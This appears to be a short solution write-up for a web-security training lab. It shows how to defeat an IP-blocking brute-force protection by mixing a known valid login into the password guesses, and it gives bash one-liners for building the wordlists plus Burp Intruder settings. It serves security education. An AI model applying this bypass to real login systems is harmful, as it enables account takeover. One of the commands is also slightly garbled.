 # Lab: Broken brute-force protection, IP block

## Lab Description

This lab is vulnerable due to a **logic flaw in its password brute-force protection**. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Candidate passwords

## Lab Solution

### Edit the username and password wordlists in terminal

```
=0; while read -r line; do echo "carlos" | tee -a carlos-wiener-userlist.txt; x=$((x + 1)); if [ $x -eq 2 ]; then echo "wiener" | tee -a carlos-wiener-userlist.txt; x=0; fi; done < passwords.txt
```

Bash one liner, copying from the list passwords.txt and at every third try, inputting name `wiener` password, which we have valid credentials.

```
x=0; while read -r line; do echo "$line" | tee -a passwords-with-peter.txt; x=$((x + 1)); if [ $x -eq 2 ]; then echo "peter" | tee -a passwords-with-peter.txt; x=0; fi; done < passwords.txt
```

Just run the intruder, it will not log in with correct credentials every 3rd time, resetting the counter.

It has to be only one request at time, otherwise may happens that different threats hit the server out of order and it will just block the IP.

Inspiration:

https://www.youtube.com/watch?v=FzQcu9LYd_k

### With Macro

Macro will automatically send another request


TEST: If the requests still need to be just one at time

Inspiration from:
https://portswigger.net/burp/documentation/desktop/settings/sessions/macros
https://www.youtube.com/watch?v=J8Ykn4Pa2bc

